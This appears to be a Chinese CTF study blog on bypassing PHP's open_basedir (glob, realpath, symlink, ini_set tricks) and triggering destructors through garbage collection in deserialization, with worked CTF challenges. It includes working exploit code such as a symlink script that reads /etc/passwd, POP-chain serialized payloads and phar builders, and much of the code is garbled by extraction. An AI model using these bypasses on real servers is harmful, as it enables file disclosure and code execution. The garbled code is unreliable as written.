0x01 open_basedir绕过
配置介绍
open_basedir是php.ini中的一个配置选项，可用于将用户访问文件的活动范围限制在指定的区域。在php.ini中设置open_basedir的值/var/www/html


设置open_basedir=/var/www/html/,通过web访问服务器的用户就无法获取服务器上除了/var/www/html/这个目录以外的文件。
假设这时连接一个webshell，当webshell工具尝试遍历和读取其他目录时将会失败。也就是蚁剑无法成功读写其他目录下的文件
系统命令函数绕过
如果此时的靶机只有open_basedir的限制，disable_functions并未过多限制，那我们可以通过system尝试，在这里就借用师傅们的图片了~~~

能够遍历上上级目录,而在webshell工具中时被禁止的,说明确实能够绕过，实际情况中,可能system()函数由于disable_function禁用无法使用，可通过同类执行命令函数绕过。但如果几乎过滤了所有的命令函数，那就需要以下几种方法了。
利用glob://协议绕过
glob://伪协议
glob://是查找匹配的文件路径模式,glob数据流包装器自 PHP 5.3.0 起开始有效，下面是官方 的一个domo
1 2 3 4 5 6 7 8 <?php $it = new DirectoryIterator ("glob://ext/spl/examples/*.php" );foreach ($it as $f ) {printf ("%s: %.1FK\n" , $f ->getFilename (), $f ->getSize ()/1024 );?>
但是单独的glob是无法绕过的，局限性在于它只能列出根目录与open_basedir执行目录下的文件，其他的就不行了，而且也不能读取文件内容。
接下来就是p神总结的方法了，我直接搬过来上篇文章写的了，但除了那些还有很多。
DirectoryIterator + Glob 列举目录
DirectoryIterator是PHP 5之后添加的一个类，为用户提供一个简单的查看目录的接口。而glob：数据流包装器是从PHP 5.3.0开始有效的，用来查找匹配的文件路径。
上payload：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 <?php printf ('<b>open_basedir : %s </b><br />' , ini_get ('open_basedir' ));$file_list = array ();$it = new DirectoryIterator ("glob:///*" );foreach ($it as $f ) {$file_list [] = $f ->__toString ();$it = new DirectoryIterator ("glob:///.*" );foreach ($it as $f ) {$file_list [] = $f ->__toString ();sort ($file_list );foreach ($file_list as $f ){echo "{$f} <br/>" ;?>
这里跟着GPT学习一波上述代码的逻辑，这里懒得配环境了，就直接借用p神的了~~~
执行我们可以发现，open_basedir为/usr/share/nginx/www/:/tmp/，但我们成功列举了/根目录下的所有文件：

不过这里的测试是在linux环境下才可以的，并且还有一个缺点就是要求php版本为5.3以上，但p神又说5.5/5.6可能有修复，但还没看到。。。这里先不管了
realpath列举目录
这个realpath函数是php中将一个路径规范化成为绝对路径的方法，它可以去掉多余的…/或./等跳转字符，能将相对路径转换成绝对路径。
在开启了open_basedir以后，这个函数有个特点：当我们传入的路径是一个不存在的文件（目录）时，它将返回false；当我们传入一个不在open_basedir里的文件（目录），但该文件（目录）是存在的话，他将抛出错误（File is not within the allowed path(s)）。
那这很明显了，我们只需要判断报错信息，就可以得到该文件是否存在了，也就是暴力破解，这个错误信息用err_handle()函数捕捉：当猜解某个存在的文件时，会因抛出错误而进入err_handle()，当猜解某个不存在的文件时，将不会进入err_handle()。
但缺点就是效率太低，上千万次才可以跑完，这肯定不行的，但p神这时候就想到了windows下的通配符：<、>
这里就懵逼了，windows下通配符不是?、*吗，这两个符号是什么鬼，随后看到评论区p神让我们看看这个漏洞
wooyun-2014-071540

上述标记处他打错了，这里说在php+windows+iis环境下这两个符号可以等价于通配符，嗷吼，怪不得，payload如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 <?php ini_set ('open_basedir' , dirname (__FILE__ ));printf ("<b>open_basedir: %s</b><br />" , ini_get ('open_basedir' ));set_error_handler ('isexists' );$dir = 'd:/test/' ;$file = '' ;$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_' ;for ($i =0 ; $i < strlen ($chars ); $i ++) { $file = $dir . $chars [$i ] . '<><' ;realpath ($file );function isexists ($errno , $errstr $regexp = '/File\((.*)\) is not within/' ;preg_match ($regexp , $errstr , $matches );if (isset ($matches [1 ])) {printf ("%s <br/>" , $matches [1 ]);?>
执行可以看到：
Open_basedir为c:\wamp\www，但我们列举出了d:/test/目录下的文件，不过只能列举出首字母不同的文件，首字母相同的话，就需要添加第二个字符再接着枚举、第三个字符etc…
这个方法好处是windows下php所有版本通用，当然坏处就是只有windows下才能使用通配符，如果是linux下就只能暴力猜解了。
SplFileInfo::getRealPath列举目录
这时p神又在想，如果我们的realpath被ban了该如何，随后他在PHP5.1.2之后找到了一个新引入的类，SplFileInfo，其提供一个对文件进行操作的接口，其中有一个getRealPath方法与realpath很像，都是获取绝对路径用的。但区别点在于这个getRealPath方法是完全无视open_basedir存在的，当我们传入一个不存在的路径时，会返回false，当该路径存在时，他会直接返回正常的绝对路径，接下来看p神的poc：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 <?php ini_set ('open_basedir' , dirname (__FILE__ ));printf ("<b>open_basedir: %s</b><br />" , ini_get ('open_basedir' ));$basedir = 'D:/test/' ;$arr = array ();$chars = 'abcdefghijklmnopqrstuvwxyz0123456789' ;for ($i =0 ; $i < strlen ($chars ); $i ++) { $info = new SplFileInfo ($basedir . $chars [$i ] . '<><' );$re = $info ->getRealPath ();if ($re ) {dump ($re );function dump ($s echo $s . '<br/>' ;ob_flush ();flush ();?>
这里附上对ob_flush()与flush()的解释：
1 这个 dump 函数可能主要用于调试目的，当开发者想要得到实时输出并即时观察脚本执行信息时。在脚本执行期间，输出通常会缓存起来，直到达到一定量或脚本执行完毕后一次性发送到浏览器。通过使用 ob_flush() 和 flush()，开发者可以强制立即输出数据，这对于监视长时间运行的脚本非常有用。

同样可以列举，这个方法有个特点，不管是否开启open_basedir都是可以枚举任意目录的。而上一个方法（realpath）只有在开启open_basedir且在open_basedir外的时候才会报错，才能列举目录。当然，没有开启open_basedir的时候也不需要这样列举目录了。
GD库imageftbbox/imagefttext列举目录
GD库一般是PHP必备的拓展库之一，这里我们看p神的分析：
1 我拿imageftbbox举个例子，这个函数第三个参数是字体的路径。我发现当这个参数在open_basedir外的时候，当文件存在，则php会抛出“File(xxxxx) is not within the allowed path(s)”错误。但当文件不存在的时候会抛出“Invalid font filename”错误。
这很清晰了，特点类似于realpath，看poc：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 <?php ini_set ('open_basedir' , dirname (__FILE__ ));printf ("<b>open_basedir: %s</b><br />" , ini_get ('open_basedir' ));set_error_handler ('isexists' );$dir = 'd:/test/' ;$file = '' ;$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_' ;for ($i =0 ; $i < strlen ($chars ); $i ++) { $file = $dir . $chars [$i ] . '<><' ;imageftbbox (100 , 100 , $file , 'aaa' );function isexists ($errno , $errstr global $file ;if (stripos ($errstr , 'Invalid font filename' ) === FALSE ) {printf ("%s<br/>" , $file );?>

我们可以看到成功爆出，但却只能爆出一个字符，但注意的是这里的特殊通配符是起了作用的，只不过在最终输出的时候通配符并没有转换为相应的字符。因此这种方法比realpath麻烦的点在于，需要一位一位爆破。
bindtextdomain暴力猜解目录
先看p神的分析：
bindtextdomain是php下绑定domain到某个目录的函数。具体这个domain是什么我也没具体用过，只是在一些l10n应用中可能用到的方法（相关函数textdomain、gettext、setlocale，说明：http://php.net/manual/en/function.gettext.php）
Bindtextdomain函数在环境支持Gettext Functions的时候才能使用，而我的windows环境下是没有bindtextdomain函数的，我的linux环境是默认存在这个函数。

这个函数的特点在于第二个参数directory，如果文件路径存在则返回具体的路径，不存在则返回false，poc如下
1 2 3 4 5 <?php printf ('<b>open_basedir: %s</b><br />' , ini_get ('open_basedir' ));$re = bindtextdomain ('xxx' , $_GET ['dir' ]);var_dump ($re );?>

这里可以看到依旧可以绕过open_basedir，缺点在于只能在linux环境下才可以，但在linux下又不能使用通配符来猜解目录，所以这是一个没有办法的办法。。。。
这里附上linux下又不能使用通配符来猜解目录的原因：
1 2 3 在Linux系统中，通过正常的shell环境中使用通配符（如 * 和 ?）来进行文件匹配和简单的模式匹配通常是可行的。然而，通配符通常不用于“猜解”（或称枚举）目录，因为shell通配符的匹配规则并不支持猜解目录结构中未知的部分。
opendir+readdir+glob绕过
opendir作用为打开目录句柄readdir作用为从目录句柄中读取目录
脚本如下：
1 2 3 4 5 6 7 8 9 <?php $a = $_GET ['c' ];if ( $b = opendir ($a ) ) {while ( ($file = readdir ($b )) !== false ) {echo $file ."<br>" ;closedir ($b );?>

虽然只能列目录，php7可以用如下方法读非根目录文件,glob:///*/www/../* 可列举 /var如下图


可见成功绕过
利用 scandir+glob绕过
scandir()函数可以列出指定路径中的文件和目录

利用symlink绕过
symlink()函数创建一个从指定名称连接的现存目标文件开始的符号连接。
1 symlink (string $target , string $link ): bool
symlink()对于已有的 target 建立一个名为 link 的符号连接，而target一般情况下受限于open_basedir。
官方的domo:
1 2 3 4 5 6 7 8 <?php $target = 'uploads.php' ;$link = 'uploads' ;symlink ($target , $link );echo readlink ($link );?>
如果将要读取/etc/passwdpoc如下，这里由于我和师傅的环境不一致，就直接cv了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 <?php mkdir ("A" );chdir ("A" );mkdir ("B" );chdir ("B" );mkdir ("C" );chdir ("C" );mkdir ("D" );chdir ("D" );chdir (".." );chdir (".." );chdir (".." );chdir (".." );symlink ("A/B/C/D" ,"SD" );symlink ("SD/../../../../etc/passwd" ,"POC" );unlink ("SD" );mkdir ("SD" );?>
访问web后,将会生成名为POC的文件


分析一下poc过程:
创建A/B/C/D目录，并返回到起始目录
symlink("A/B/C/D","SD"):创建符号文件SD，指向A/B/C/Dsymlink("SD/../../../../etc/passwd","POC"):创建符号文件POC,指向SD/../../../../etc/passwd。此时SD=A/B/C/D,而A/B/C/D../../../../=/var/www/html,符合open_basedir的限制,创建成功。unlink(“SD”):删除软链接SD，并创建一个文件夹，此时SD作为一个真正的目录存在并且SD在html目录下。那么访问POC，指向的是SD/../../../../etc/passwd,SD/../../../就是/var目录,/var/../etc/passwd恰好可以读取到etc目录下的passwd，从而达到跨目录访问的效果。（因为link是不受open_basedir的限制）
这里需要跨几层目录就需要创建几层目录。
最后附上p牛EXP
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 <?php header ('content-type: text/plain' );error_reporting (-1 );ini_set ('display_errors' , TRUE );printf ("open_basedir: %s\nphp_version: %s\n" , ini_get ('open_basedir' ), phpversion ());printf ("disable_functions: %s\n" , ini_get ('disable_functions' ));$file = str_replace ('\\' , '/' , isset ($_REQUEST ['file' ]) ? $_REQUEST ['file' ] : '/etc/passwd' );$relat_file = getRelativePath (__FILE__ , $file );$paths = explode ('/' , $file );$name = mt_rand () % 999 ;$exp = getRandStr ();mkdir ($name );chdir ($name );for ($i = 1 ; $i < count ($paths ) - 1 ; $i ++){mkdir ($paths [$i ]);chdir ($paths [$i ]);mkdir ($paths [$i ]);for ($i -= 1 ; $i > 0 ; $i --) { chdir ('..' );$paths = explode ('/' , $relat_file );$j = 0 ;for ($i = 0 ; $paths [$i ] == '..' ; $i ++) { mkdir ($name );chdir ($name );$j ++;for ($i = 0 ; $i <= $j ; $i ++) { chdir ('..' );$tmp = array_fill (0 , $j + 1 , $name );symlink (implode ('/' , $tmp ), 'tmplink' );$tmp = array_fill (0 , $j , '..' );symlink ('tmplink/' . implode ('/' , $tmp ) . $file , $exp );unlink ('tmplink' );mkdir ('tmplink' );delfile ($name );$exp = dirname ($_SERVER ['SCRIPT_NAME' ]) . "/{$exp} " ;$exp = "http://{$_SERVER['SERVER_NAME']} {$exp} " ;echo "\n-----------------content---------------\n\n" ;echo file_get_contents ($exp );delfile ('tmplink' );function getRelativePath ($from , $to $from = rtrim ($from , '\/' ) . '/' ;$from = str_replace ('\\' , '/' , $from );$to = str_replace ('\\' , '/' , $to );$from = explode ('/' , $from );$to = explode ('/' , $to );$relPath = $to ;foreach ($from as $depth => $dir ) {if ($dir === $to [$depth ]) {array_shift ($relPath );else {$remaining = count ($from ) - $depth ;if ($remaining > 1 ) {$padLength = (count ($relPath ) + $remaining - 1 ) * -1 ;$relPath = array_pad ($relPath , $padLength , '..' );break ;else {$relPath [0 ] = './' . $relPath [0 ];return implode ('/' , $relPath );function delfile ($deldir if (@is_file ($deldir )) {chmod ($deldir ,0777 );return @unlink ($deldir );else if (@is_dir ($deldir )){if (($mydir = @opendir ($deldir )) == NULL ) return false ;while (false !== ($file = @readdir ($mydir )))$name = File_Str ($deldir .'/' .$file );if (($file !='.' ) && ($file !='..' )){delfile ($name );}closedir ($mydir );chmod ($deldir ,0777 );return @rmdir ($deldir ) ? true : false ;function File_Str ($string return str_replace ('//' ,'/' ,str_replace ('\\' ,'/' ,$string ));function getRandStr ($length = 6 $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789' ;$randStr = '' ;for ($i = 0 ; $i < $length ; $i ++) {$randStr .= substr ($chars , mt_rand (0 , strlen ($chars ) - 1 ), 1 );return $randStr ;
利用chdir与ini_set绕过
chdir将工作目录切换到指定的目录,函数原型为
1 chdir (string $directory ): bool
ini_seti用来设置php.ini的值，无需打开php.ini文件，就能修改配置。函数原型为:
1 ini_set (string $option , string $value ): string |false
设置指定配置选项的值。这个选项会在脚本运行时保持新的值，并在脚本结束时恢复。
bypass原理大概open_basedir设计逻辑的安全问题，分析过程参考:从PHP底层看open_basedir bypass
这里看了文章发现是深入PHP底层的，咱这也看不懂。。。只能总结一下漏洞点，问题是出现在expand_filepath()函数上，这个函数在处理路径变化时，只关注绝对路径，但没有考虑open_basedir为相对路径时会变化的问题，构造思路如下
首先需要构造一个相对可上跳的open_basedir
1 2 3 mkdir ('sky' );chdir ('sky' );ini_set ('open_basedir' ,'..' );
这也是为什么要先创文件夹的原因，就是为了在当前目录构造可以..的ini_set，然后每次目录操作
都会进行一次open_basedir的比对，即php_check_open_basedir_ex。由于相对路径的问题，每次open_basedir的补全都会上跳。
1 2 3 4 5 比如初试open_basedir为/a /b /c/da /b /c，a /b ，a ，
那么这时候再进行ini_set，调整open_basedir为/即可通过php_check_open_basedir_ex的校验，成功覆盖，导致我们可以bypass open_basedir。
所以通用的payload基本如下：
1 <?php mkdir ('sub' );chdir ('sub' );ini_set ('open_basedir' ,'..' );chdir ('..' );chdir ('..' );chdir ('..' );chdir ('..' );ini_set ('open_basedir' ,'/' );var_dump (scandir ('/' ));?>

0x02 wake_up绕过
PHP-GC垃圾回收机制
这里看到下面的绕过方法基本都是该GC机制引起的，故此先来学习一下前置知识。
何为GC
Gc，全称Garbage collection，即垃圾回收机制，在PHP中有这个GC机制
PHP中的GC
在PHP中，使用引用计数和回收周期来自动管理内存对象，当一个变量被设置为NULL，或者没有任何指针指向的时候，他就会被变成垃圾，被GC机制自动回收。
其实说白了就是当一个对象没有被引用时，就会被GC回收，在回收的时候他会自动调用destruct析构函数，而这也就是我们绕过抛出异常的关键点，接下来了解一下什么是引用计数
引用计数
当我们PHP创建一个变量时，这个变量会被存储在一个名为zval的变量容器中。在这个zval变量容器中，不仅包含变量的类型和值，还包含两个字节的额外信息。
第一个字节名为is_ref，是bool值，它用来标识这个变量是否是属于引用集合。PHP引擎通过这个字节来区分普通变量和引用变量，由于PHP允许用户使用&来使用自定义引用，zval变量容器中还有一个内部引用计数机制，来优化内存使用。
第二个字节是refcount，它用来表示指向zval变量容器的变量个数。所有的符号存储在一个符号表中，其中每个符号都有作用域。
展示几个例子：
1 2 3 4 <?php $a = "new string" ; xdebug_debug_zval ('a' ); ?>

输出如上，这里看着和文章不一样，因为我们很明显只定义了一个变量，但这里的refcount的值却是2，随后询问了GPT发现是函数的问题，当我们使用xdebug_debug_zval来检查变量时，xdebug会创建这个变量的一个副本以防止修改原始变量，这个过程将增加zval的引用计数。
接下来我们添加一个引用
1 2 3 4 5 <?php $a = "new string" ;$b = &$a ;xdebug_debug_zval ('a' ); ?>

如上图这里refcount，看到这里依旧发现refcount是2，在这是因为此时a和b变量共同使用同一个地址，那他们实际上会共同指向变量a所在zval结构，也就是同一个zval被两个变量所引用，因此refcount=2
接下来说一下容器的销毁这个事，变量容器在refcount变成0时就被销毁。它这个值是如何减少的呢，当函数执行结束或者对变量调用了unset()函数,refcount就会减1。看个例子
1 2 3 4 5 6 7 8 <?php $a ="new string" ; $b =&$a ;$c =&$b ;xdebug_debug_zval ('a' );unset ($b ,$c );xdebug_debug_zval ('a' );?>

这里看到在unset了b和c之后refcount恢复到了1，但是is_ref的值却成为了1，按常理来说，这里销毁了b和c变量，那么a变量就没有被引用了，is_ref的值应该为0。我们看看GPT的回答：
当你销毁其中的一个或多个引用变量，即使使用了unset，剩下的变量（这里是$a）仍然保持原始zval的状态，其中包括它的is_ref和refcount的值。
这时候，你销毁了变量$b和$c。现在对应的zval只剩下$a一个引用。此时，引用计数（refcount）将减少，但is_ref仍然保持原来的值，因为这个标志表示zval是否可以被作为引用，并不是说它是否当前被引用。
在第二次调用xdebug_debug_zval时，你可以看到refcount应该已经减少，但is_ref标志仍然为1，因为它是表示变量$a的zval曾经被设置为引用。由于PHP的内部优化，除非再次对变量做出修改，否则is_ref标志通常不会因unset操作而被改变。
也就是说除非我们将对变量a引用的代码块删除，或者重新创建一个变量a，这时候会产生一个新的zval结构，而该新结构并未被引用，此时is_ref为0
GC在PHP 反序列化中的利用
GC如果在PHP反序列化中生效，那它就会直接触发_destruct方法，接下来以例子来演示。
demo1
首先来看变量被unset函数处理的情况
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 <?php highlight_file (__FILE__ ); error_reporting (0 ); class test public $num ; public function __construct ($num $this ->num = $num ; echo $this ->num."__construct" ."</br>" ; public function __destruct (echo $this ->num."__destruct()" ."</br>" ; $a = new test (1 ); unset ($a );$b = new test (2 ); $c = new test (3 );?>
可以看到对象a的析构函数在调用unset之后就触发了，与下面两个相比，该析构函数的调用提前了
还有一种方法，就是当对象为NULL的时候也可以直接触发析构函数，demo如下
1 2 3 4 5 6 7 8 9 10 11 12 <?php show_source (__FILE__ );$flag = "flag" ;class B function __destruct (global $flag ;echo $flag ;$a = unserialize ($_GET ['1' ]);throw new Exception ('你想干什么' );?>

我们可以看到如果正常传入反序列化字符串，是无法调用析构函数的，直接就被抛出错误，这离我们需要明确的一点是：
反序列化操作本身并不会自动触发析构函数；析构函数的调用要么是因为对象将不再被引用（对于局部变量，会在其作用域结束时发生），要么是因为整个脚本的执行已经结束（对于全局变量）。
对应到上述代码就是我们的unserialize($_GET['1']);被赋值给了变量a，但a是一个全局变量，只有当脚本执行结束之后a的生命周期才会结束，此时才会调用析构函数，但是在脚本结束前，被throw new Exception('你想干什么');抛出了异常，那么PHP会因为这个异常而直接中断脚本的执行，这导致了变量a的析构函数没有机会被调用
1 脚本终止后，所有剩余的清理工作（包括析构函数调用）将在脚本执行退出的清理过程中完成。或者如果脚本由于异常而终止，析构函数可能根本没有被调用，因为PHP尝试先处理异常。
那此时我们将变量a删除看看
1 2 3 4 5 6 7 8 9 10 11 12 13 14 <?php show_source (__FILE__ );$flag = "flag" ;class B function __destruct (global $flag ;echo $flag ;$poc = new B ();echo serialize ($poc );unserialize ($_GET ['1' ]);throw new Exception ('你想干什么' );?>

可以看到虽然依旧被抛出了异常，但我们的析构函数也被正常调用了。这是由于unserialize($_GET['1']);没有赋值给其他变量，也就是说在调用完unserialize之后，这个对象就立即没有了对它的引用，此时的PHP GC机制判断出该对象没有了引用，就是调用垃圾回收机制，将其回收，这时候就会调用析构函数来清理。
但如果真实环境下，这里就是被某个变量引用了，我们如何绕过异常来调用析构函数呢，即如何提前触发GC垃圾回收机制，这里看看大师傅如何绕过的，它采用反序列化一个数组来尝试绕过
1 2 3 4 5 6 7 8 9 10 11 12 <?php show_source (__FILE__ );class B function __destruct (global $flag ;echo $flag ;$a =array (new B,0 );echo serialize ($a );?>
得到序列化文本如下
1 2 3 a:2 :{i:0 ;O:1 :"B" :0 :{}i:1 ;i:0 ;}
接下来这位师傅将第二个索引置空，就可以触发GC回收机制，因此修改序列化文本为
1 a:2 :{i:0 ;O:1 :"B" :0 :{}i:0 ;i:0 ;}

可以看到成功绕过
这里我认为是将两个索引都改为了同一个，这导致指针出了问题，也就是在开始的时候对象B的索引为0，也就是a[0]=B，之后又来了一个a[0]=0，因此前者的引用消失了，也就成功触发析构函数了
Gc在Phar反序列化中的利用
Gc在Phar反序列化中类似于PHP反序列化，也是当遇到抛出异常时，可以借用上面的方法来实现绕过，下面以demo来简单讲解一下。
demo2
1 2 3 4 5 6 7 8 9 10 11 12 <?php highlight_file (__FILE__ ); class Test public $code ; public function __destruct (eval ($this -> code); $filename = $_GET ['filename' ]; echo file_get_contents ($filename ); throw new Error ("Garbage collection" ); ?>
这里看到file_get_contents函数和eval，毫无疑问就是phar反序列化了。payload如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 <?php class Test public $code ;$phar = new Phar ("1.phar" ); $phar ->startBuffering ();$phar ->setStub ("<?php __HALT_COMPILER();?>" ); $a = new Test ();$a = 'phpinfo()' ;$o = array ($a , 0 );$phar ->setMetadata ($o ); $phar ->addFromString ("test.txt" , "test" ); $phar ->stopBuffering ();?>

用编辑器打开后，我们可以利用上述思路来修改此处的索引，以此来绕过异常，但注意的是phar文件中不能随意修改数据，否则就会因为签名错误而导致文件出错，但签名可以进行伪造，所以我们依旧可以先直接修改，之后重新计算文件签名
1 2 3 4 5 6 7 8 9 import urllib.parsefrom hashlib import sha1with open ('D:\\PphProject\\Scripts\\1.phar' , 'rb' ) as file:28 ] 8 :] with open ('newtest.phar' , 'wb' ) as file:

接下来就利用phar伪协议即可：filename=phar://D:\PphProject\Scripts\newtest.phar

CTF例题
这道题是H3018大师傅在知识分享时的例题，在这里引用一下，源码如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 <?php highlight_file (__FILE__ ); error_reporting (0 ); class cg0 public $num ; public function __destruct (echo $this ->num."hello __destruct" ; class cg1 public $string ; public function __toString (echo "hello __toString" ; $this ->string ->flag (); class cg2 public $cmd ; public function flag (echo "hello __flag()" ; eval ($this ->cmd); $a =unserialize ($_GET ['code' ]); throw new Exception ("Garbage collection" ); ?>
这道题的话思路比较简单，poc如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <?php class cg0 public $num ;class cg1 public $string ;class cg2 public $cmd ;$pop = new cg0 ();$pop ->num = new cg1 ();$pop ->num->string = new cg2 ();$pop ->num->string ->cmd = 'phpinfo();' ;$a = array ($pop , 0 );echo serialize ($a );?>
1 2 3 a:2 :{i:0 ;O:3 :"cg0" :1 :{s:3 :"num" ;O:3 :"cg1" :1 :{s:6 :"string" ;O:3 :"cg2" :1 :{s:3 :"cmd" ;s:10 :"phpinfo();" ;}}}i:1 ;i:0 ;}2 :{i:0 ;O:3 :"cg0" :1 :{s:3 :"num" ;O:3 :"cg1" :1 :{s:6 :"string" ;O:3 :"cg2" :1 :{s:3 :"cmd" ;s:10 :"phpinfo();" ;}}}i:0 ;i:0 ;}
如下图成功绕过

CTFSHOW卷王杯-easy unserialize
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 <?php include ("./HappyYear.php" );class one public $object ;public function MeMeMe (array_walk ($this , function($fn , $prev ){if ($fn [0 ] === "Happy_func" && $prev === "year_parm" ) {global $talk ;echo "$talk " ."</br>" ;global $flag ;echo $flag ;public function __destruct ($this ->object ->add ();public function __toString (return $this ->object ->string ;class second protected $filename ;protected function addMe (return "Wow you have sovled" .$this ->filename;public function __call ($func , $args call_user_func ([$this , $func ."Me" ], $args );class third private $string ;public function __construct ($string $this ->string = $string ;public function __get ($name $var = $this ->$name ;$var [$name ]();if (isset ($_GET ["ctfshow" ])) {$a =unserialize ($_GET ['ctfshow' ]);throw new Exception ("高一新生报道" );else {highlight_file (__FILE__ );
这个反序列化也让我学到了很多点，对我这彩笔来说有点难，这里也是参考了一下wp才想明白的思路：
首先定位到敏感字段echo $flag;那我们就要想如何调用mememe方法了，搜寻一番可能会找不到，但仔细分析会发现call_user_func([$this, $func."Me"], $args);存在Me的字符，我们看一下这个函数的作用
call_user_func — 把第一个参数作为回调函数调用
也就是说这里的[$this, $func."Me"]参数会被当做一个函数去对待，后面的args则是该函数的参数，那这里意味着我们可以构造出mememe方法。
接下来在思考如何调用其所在的call方法：需要找一个不存在的属性的地方，那很明显就是$this->object->add();此处了，这两个地方相互配合又会去调用addMe方法，接着会触发tostring。
在该方法下有$this->object->string;这里大概率是想要调用third类的get方法，因为string数不可访问的属性。最后就是$var[$name]();这一重要的点了，我们可以在PHP文档中找到如下信息：

可以看到如果我们有这样的代码：
1 2 $var = [new one (), 'MeMeMe' ];
至此链子打通了：
1 反序列化入口->one.destruct->second.call->second.addMe->one.tostring->third.get->one.MeMeMe
还有最后一个点
1 2 3 4 5 6 7 8 9 10 public function MeMeMe (array_walk ($this , function($fn , $prev ){if ($fn [0 ] === "Happy_func" && $prev === "year_parm" ) {global $talk ;echo "$talk " ."</br>" ;global $flag ;echo $flag ;
这里的if语句如何绕过，我们先了解array_walk函数的用法

简单例子如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 <?php $fruits = array ("d" => "lemon" , "a" => "orange" , "b" => "banana" , "c" => "apple" );function test_alter (&$item1 , $key , $prefix )$item1 = "$prefix : $item1 " ;function test_print ($item2 , $key echo "$key . $item2 <br />\n" ;echo "Before ...:\n" ;array_walk ($fruits , 'test_print' );array_walk ($fruits , 'test_alter' , 'fruit' );echo "... and after:\n" ;array_walk ($fruits , 'test_print' );?>
可以看到该函数会将第二个参数当做函数，而该函数最多接受两个参数，接受的第一个参数就是array_walk的第一个参数，而第二个参数来自array_walk的第三个参数（这个参数可写可不写）这里不具体分析了，我们可以简单测试一下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 <?php highlight_file (__FILE__ );class one public $year_parm ;public $object ;public function MeMeMe ( {array_walk ($this , function ($fn , $prev ) {if ($fn [0 ] === "Happy_func" && $prev === "year_parm" ) {echo 'success' ;$a = new one ();$a ->year_parm = array ('Happy_func' );$a ->MeMeMe ();?>
如上图添加了一个$year_parm变量，我们看输出如何，如下图。
也就是说其中的$this会去遍历当前对象的每个公共属性，即$year_parm与$object，随后的自定义function函数中fn变量是属性的值，prev变量代表属性的名字。
即如果传入$a->year_parm = array(‘Happy_func’);，则array_walk在调用的时候是这样的。
1 $fn ='Happy_func' &$prev ='year_parm'

至此我们可以写poc了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 <?php class one public $year_parm = array ('Happy_func' );public $object ;public function MeMeMe (array_walk ($this , function($fn , $prev ){if ($fn [0 ] === "Happy_func" && $prev === "year_parm" ) {global $talk ;echo "$talk " ."</br>" ;global $flag ;echo $flag ;public function __destruct ($this ->object ->add ();public function __toString (return $this ->object ->string ;class second public $filename ;protected function addMe (return "Wow you have sovled" .$this ->filename;public function __call ($func , $args call_user_func ([$this , $func ."Me" ], $args );class third private $string ;public function __construct ($string $this ->string = $string ;public function __get ($name $var = $this ->$name ;$var [$name ]();$pop = new one ();$pop ->object = new second ();$pop ->object ->filename = new one ();$pop ->object ->filename->object = new third (array ("string" =>[new one (),"MeMeMe" ]));$a = array ($pop , 0 );$a = serialize ($a );$b = str_replace ('i:1;i:0;' , 'i:0;i:0;' , $a );echo urlencode ($b );?>
解释一下这里的赋值new third(array("string"=>[new one(),"MeMeMe"]));
因为这里我们调用的是__get方法，而此前我们是这样调用的$this->object->string;这里的object为third对象实例，这样在调用get后，get其中的$name变量的值就是string（可以自行测试验证），而之后存在$var = $this->$name;这一行代码，即$var = $this->$string;而$string=[new one(),"MeMeMe"]至此变量var成功被赋值为数组

就这一个题废了1个小时。。。太菜了
NSSCTF prize_p1
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 <?php highlight_file (__FILE__ );class getflag function __destruct (echo getenv ("FLAG" );class A public $config ;function __destruct (if ($this ->config == 'w' ) {$data = $_POST [0 ];if (preg_match ('/get|flag|post|php|filter|base64|rot13|read|data/i' , $data )) {die ("我知道你想干吗，我的建议是不要那样做。" );file_put_contents ("./tmp/a.txt" , $data );else if ($this ->config == 'r' ) {$data = $_POST [0 ];if (preg_match ('/get|flag|post|php|filter|base64|rot13|read|data/i' , $data )) {die ("我知道你想干吗，我的建议是不要那样做。" );echo file_get_contents ($data );if (preg_match ('/get|flag|post|php|filter|base64|rot13|read|data/i' , $_GET [0 ])) {die ("我知道你想干吗，我的建议是不要那样做。" );unserialize ($_GET [0 ]);throw new Error ("那么就从这里开始起航吧" );
这里看到getflag类直接就能输出flag但是在反序列化以前，通过正则过滤了flag和get关键字，因此对于直接利用getflag类这种办法就行不通了，虽然对于这种正则的绕过，我们可以使用数组，就像这样?0[]=XXX，但是后面的值就被PHP解析为数组，导致无法正常反序列化。
因此我们只能将目光投向到A类，其中依旧是要触发析构函数，有两个功能，一个是写入文件，一个是读取文件，并且函数是我们熟知的可以配合phar进行反序列化的函数。
